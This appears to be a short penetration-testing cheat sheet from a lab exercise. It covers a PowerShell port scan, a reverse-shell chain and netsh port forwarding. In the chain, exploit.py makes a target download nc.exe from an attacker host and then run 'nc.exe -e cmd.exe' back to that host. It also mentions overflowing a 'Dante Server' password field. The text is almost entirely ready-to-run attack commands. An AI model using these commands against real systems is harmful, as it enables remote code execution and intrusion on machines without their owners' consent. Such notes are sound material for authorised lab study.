 ### Portscan a target

	135..139 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) “Port $_ is open”} 2>$null

### Get reverse shell

Upload nc.exe to target:

	python3 -m http.server 80
	proxychains python3 exploit.py -u http://172.16.1.102/ -c "powershell wget 10.10.16.35/nc.exe -o nc.exe" -m 1111111111 -p test
	
Get shell:

	nc -lvnp 9001

	proxychains python3 exploit.py -u http://172.16.1.102/ -c "nc.exe -e cmd.exe 10.10.16.35 9001" -m 1111111111 -p test

### Port forward

Test on Windows only:

	1) run SERVER.EXE in cmd.exe.
	2) run nc.exe 127.0.0.1 4444 in another cmd.exe.

```
Dante Server 1.0
Enter Access Name: Admin
Access Password: P@$$worD
Correct Password!
```

Test between Kali and Windows:

In Windows powershell:

	netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=3333 connectaddress=127.0.0.1 connectport=4444 protocol=tcp

```
The command forwards the connection from port 3333 on 0.0.0.0 to port 4444 on localhost, allowing us to access the  service. Let's validate the vulnerability by sending more than 1024 bytes of data in the password field.
```

Attacking machine:

	sudo ifconfig eth1 10.10.0.1
	sudo ifconfig eth1 netmask 255.255.255.0
	nc -nv 10.10.0.2 3333

```
Dante Server 1.0
Enter Access Name:
```

### Make typescript of terminal session
